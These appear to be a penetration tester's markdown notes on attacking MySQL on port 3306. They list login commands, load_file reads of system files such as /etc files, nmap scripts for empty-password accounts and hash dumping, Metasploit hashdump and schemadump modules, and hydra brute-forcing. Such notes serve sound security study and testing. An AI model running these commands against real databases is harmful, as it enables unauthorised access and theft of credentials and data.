 Popular db on linux systems

port 3306

Commands
=
`mysql -h host -u user(root)` - login to mysql sb
	help
	show databases;
	use database_name;
	show tables;
	use table_name;
	select * from table_name;
	select load_file("/file/name"); - loads a file from the linux system, could be /etc/files

nmap scripts
=
--script
	`mysql-empty-password` - gets accounts that can login without passwords/anonymous login
	`mysql-info` - versioning, capabilites (look for interactive client)
	`mysql-users --script-args="mysqluser='root', myqlpass=''"` - dumps mysql users on the db
	`mysql-databases --script-args="mysqluser='root', myqlpass=''"`
	`mysql-varaiables --script-args="mysqluser='root', myqlpass=''"` - look at data directory (datadir), shows where data is stored
	`mysql-dump-hashes --script-args="username='root', password=''"` - dumps users and their hashes that are on the dbms, hash is after the second set of 
	`mysql-audit --script-args="mysql-audit.user='root', mysql-audit.password=' ', mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'"` - useful information, tests configurations of database
	`mysql-query --script-args="query='query here' username='root', password=''"`


Msfconsole
=
`auxiliary/scanner/mysql/*`
	`mysql_writable_dirs`
	`mysql_hashdump` - dumps hashes in db
	`mysql_schemadump `- dumps all table and columbs

Bruteforcing
=
msfconsole - `auxiliary/scanner/mysql/mysql_login`
`hydra -l username -P passwordfiles host mysql`